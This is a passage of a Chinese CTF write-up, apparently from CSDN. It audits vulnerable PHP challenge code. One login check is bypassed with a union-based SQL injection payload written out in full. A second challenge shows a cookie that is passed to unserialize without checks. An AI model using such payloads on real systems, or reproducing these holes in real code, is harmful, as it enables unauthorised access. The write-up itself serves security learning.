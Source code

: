 ```php
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
            $row = $result->fetch_assoc();
            if ( $row['username'] === 'admin' && $row['password'] )
            {
                if ($row['password'] == $password)
                {
                    $message = $FLAG;
                } else {
                    $message = "username or password wrong, are you admin?";
                }
            } else {
                $message = "wrong user";
            }
        } else {
            $message = "user not exist or wrong password";
        }
    }
    ?> 
```

password 被过滤了，usename 没有过滤，使用联合查询，构造 username 和 password 返回 admin 即可

    username=admin1'+union+select+'admin','admin','admin'%23&password=admin&captcha=LSOK 

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpsYnJUVUFMMHZtTTZXejFaTUVxVk4zTmpMTmxoTWhWVHJVN082MzNEOHA1Z1Ftam4xRk9YMFEvNjQw?x-oss-process=image/format,png)

0x03 warmup

下载源码开始审计，在 index.php 中发现了 unserialize，估计是考察反序列化的利用了

```php
···
if (isset ($_COOKIE['last_login_info'])) {
    $last_login_info = unserialize (base64_decode ($_COOKIE['last_login_info']));
    try {
        if (is_array($last_login_info) && $last_login_info['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('WAF info: your ip status has been changed, you are dangrous.');
        }
    } catch(Exception $e) {
        die('Error');
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('last_login_info', $cookie, time () + (86400 * 30));
}
··· 
```

conn.php 源码

```php
    include 'flag.php';

     class SQL {
        public $table = '';
        public $username = '';
        public $password = '';
        public $conn;
        public function __construct() {
        }

        public function connect() {
            $this->conn = new mysqli("localhost", "xxxxx", "xxxx", "xxxx");
        }

        public function check_login(){
```